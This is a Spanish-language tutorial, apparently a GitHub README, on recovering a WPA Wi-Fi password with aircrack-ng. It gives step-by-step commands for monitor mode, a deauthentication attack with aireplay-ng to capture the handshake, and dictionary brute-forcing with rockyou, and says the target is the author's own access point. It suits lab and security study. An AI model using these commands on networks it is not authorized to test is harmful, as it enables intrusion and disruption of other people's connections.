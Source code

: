 
# Obtener wifi password haciendo uso de aircrack-ng (fuerza bruta)

---

## Necesitamos:
- Un diccionario para la fuerza bruta [rockyou wordlist](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt&ved=2ahUKEwjv0tnwvcaNAxU9g_0HHaH9Av8QFnoECAkQAQ&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd)
- Tener instalado aircrack-ng
```
sudo apt install aircrack-ng
```

---

## Pasos:
1. Lo primero es dirigirnos a una carpeta(para este ejercicio) creada o si no esta creada crearla, y conocer nuestra interfaz de red haciendo uso del comando ``` ifconfig ```
2. Lo siguiente será poner dicha interfaz en modo monitor, imaginemos que en nuestro caso la interfaz es la wlan0. Para ponerla en modo monitor ejecutamos el siguiente comando
```
sudo airmon-ng start wlan0
```
3. Si ejecutaramoso ahora el comando ifconfig veríamos el nombre de nuestra interfaz seguido de un 'mon'. En nuestro caso wlan0mon
4. Bien una vez tenemos esto hecho procederemos a enumerar todas las redes wifi que tenemos en nuestro alcance. Para eso haremos uso de la herramienta airodump.
```
sudo airodump-ng wlan0mon
```
Se nos mostrara una tabla donde cada fila es una red wifi encontrada. Buscamos la que queramos penetrar (en nuestro caso un punto de acceso propio) y de esta nos quedaremos con los siguientes datos: el BSSID y el canal (mostrado como 'CH').
El BSSID lo encontraremos de normal en la primera columna con el siguiente formato '00:00:00:00:00:00'. En nuestro caso D8:E8:44:8E:90:9B
Por otro lado el canal sera un número entero que encontraremos de normal en la 6ª columna. En nuestro caso es el 8.
5. A continuación ejecutaremos el siguiente comando para ejecutar la auditoria.
```
sudo airodump-ng -c <canal> --bssid <bssid> -w <nombreArchivoAuditoria> <interfazMon>
```
ej:
```
sudo airodump-ng -c 8 --bssid D8:E8:44:8E:90:9B -w auditoria wlan0mon
```
Una vez ejecutado el comando anterior se nos aparecerá una 2 tablas donde la primera es el punto de acceso que estamos auditando y lo que irá apareciendo debajo serán las estaciones.
>IMPORTANTE NO CERRAR LA TERMINAL ANTERIOR!! CONTINUAMOS EN UNA NUEVA TERMINAL
6. Lo siguiente será ejecutar el siguiente comando el cual empezará a enviar tráfico a una de las estaciones que hayamos elegido (el identificativo de la estación es igual al del bssid)
```
sudo aireplay-ng -0 9 -a <bssid> -c <station> <interfazMno>
```
```
sudo aireplay-ng -0 9 -a D8:E8:44:8E:90:9B -c 18:EE:69:50:54:D4 wlan0mon
```
Ejecutaremos esto reiteradas veces hasta que en la primera terminal donde estamos auditorando salga el WPA handshake. Una vez se nos aparezca podremos parar el proceso de la primera terminal y segunda terminal con Ctrl+C.
7. El handshake tiene el mismo formato que el bssid. Ahora realizando un 'ls' veremos que se han generado varios archivos. De estos solo nos importa el archivo terminado en .cap.
8. Continuamos con el ataque final donde ejecutaremos el siguiente comando:
```
sudo aircrack-ng -b <handshake> -w <wordlist>.txt <nomArchivoAuditoria>.cap
```
```
sudo aircrack-ng -b D8:E8:44:8E:90:9B -w rockyou.txt auditoria.cap
```
9. Una vez que ejecutemos esto, aircrack empezará a realizar fuerza bruta haciendo uso de todo el diccionario. Esto puede llegar a tardar varios minutos incluso horas.
10. Finalmente, cuando se encuentre la contraseña (si es que se encuentra) aircrack nos lo dirá y solo quedará probarla.
Antes que nada recordar desactivar el modo monitor de la interfaz con el comando:
```D8:E8:44:8E:90:9A
sudo airmon-ng stop wlan0mon
```

---

## Reflexiones
Es recomendable usar diccionarios específicos para poder penetrar en la red de la forma mas facil posible. Ya pueden ser otros diccionarios específicos con contraseñas por defectos de routers o crear tus propios diccionarios.
